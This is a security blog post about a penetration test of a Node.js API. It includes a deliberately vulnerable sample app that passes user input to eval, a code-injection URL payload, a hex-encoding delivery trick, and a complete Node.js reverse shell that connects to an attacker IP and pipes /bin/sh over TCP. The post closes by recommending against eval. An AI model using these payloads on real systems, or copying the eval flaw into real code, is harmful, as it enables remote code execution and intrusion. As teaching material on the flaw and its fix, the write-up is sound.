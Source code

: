 ```yaml
---
template: post
title: Reverse shell on a Node.js application
date: '2016-05-30T23:12:00.000+07:00'
author: Van-Duyet Le
tags:
- Nodejs
- Reverse shell
- Security
- Node.js
- vulnerable
modified_time: '2016-05-30T23:12:07.074+07:00'
blogger_id: tag:blogger.com,1999:blog-3454518094181460838.post-4949924599594903184
blogger_orig_url: https://blog.duyet.net/2016/05/reverse-shell-on-nodejs-application.html
slug: /2016/05/reverse-shell-on-nodejs-application.html
category: Javascript
description: How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.
---
```


How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.

## Introduction ##
We were tasked by a small web developer team to perform a security assessment of their mobile app backend which is a REST API.

The architecture is rather simple there is only three Linux servers.

- Node.js
- MongoDB
- Redis

First we performed a few arbitrary tests without access to the source code and we discovered that a few unexpected input at some endpoints would crash the backend application.
We also noticed that the redis server was accessible from the WAN without authentication.

Our next step was to review the Node.js API code and understand the crashes.

## Simplified vulnerable application ##
We created this small Node.js application with the vulnerable function if you want to try to exploit it yourself.
This Node.js web server will wait for a query such as `http://target.tld//?name=do*` and search for animal names matching that query.

```
'use strict'
const http = require('http');
const url = require('url');
const path = require('path');

const animalsJSON = path.join(__dirname, 'animals.json');
const animals = require(animalsJSON);

function requestHandler(req, res) {
    let urlParams = url.parse(req.url, true);
    let queryData = urlParams.query;
    res.writeHead(200, {"Content-Type": "application/json"});

    if (queryData.name) {
        let searchQuery = stringToRegexp(queryData.name);
        let animalsResult = getAnimals(searchQuery);
        res.end(JSON.stringify(animalsResult));
    } else {
        res.end();
    }
}

function getAnimals(query) {
    let result = [];

    for (let animal of animals) {
        if (query.test(animal.name))
            result.push(animal);
    }

    return result;
}

function stringToRegexp(input) {
    let output = input.replace(/[\[\]\\\^\$\.\|\?\+\(\)]/, "\\$&");
    let prefix, suffix;

    if (output[0] == '*') {
        prefix = '/';
        output = output.replace(/^\*+/g, '');
    } else {
        prefix = '/^';
    }

    if (output[output.length - 1] == '*') {
        suffix = '/i';
        output = output.replace(/\*+$/g, '');
    } else {
        suffix = '$/i';
    }
    output = output.replace(/[\*]/, '.*');

    return eval(prefix + output + suffix);
}

const server = http.createServer(requestHandler);
server.listen(3000);
```

```
[
    {"name": "Dinosaur"},
    {"name": "Dog"},
    {"name": "Dogfish"},
    {"name": "Dolphin"},
    {"name": "Donkey"},
    {"name": "Dotterel"},
    {"name": "Dove"},
    {"name": "Dragonfly"},
    {"name": "Duck"}
]
```

## The vulnerability ##
After a few minutes of analyzing the buggy endpoints in the code we noticed a bad practice issue that could lead to remote code execution.
The `stringToRegexp` function is evaluating user input to create a `RegExp` object and use it to find elements in an array.

```
return eval(prefix + output + suffix); // we control output value
```

We can insert our own Javascript code in the output variable and execute it.
The stringToRegexp function will escape some characters and the output value will be evaluated.

```
["./;require('util').log('Owned');//*"]
```

Visiting the address below will print a message on the server terminal.
`http://target.tld/?name=["./;require('util').log('Owned');//*"]`

From there it would be nice to execute code to have an interactive shell such as `/bin/sh`.

## The Node.js reverse shell ##
The Javascript code below is a Node.js reverse shell.
The payload will spawn a /bin/sh shell, create a TCP connection to the attacker and attach the shell standard streams to it.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

To execute the payload gracefully we used a little trick, we encoded our reverse shell payload to hexadecimal and used the Node.js Buffer object to decode it.
`http://target.tld/?name=["./;eval(new Buffer('PAYLOAD', 'hex').toString());//*"]`

## Conclusion ##
It's highly recommended to avoid using the `eval` function in a Javascript project.
The fix was rather simple, they started using using the `RegExp` object directly.
See origin post here: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)
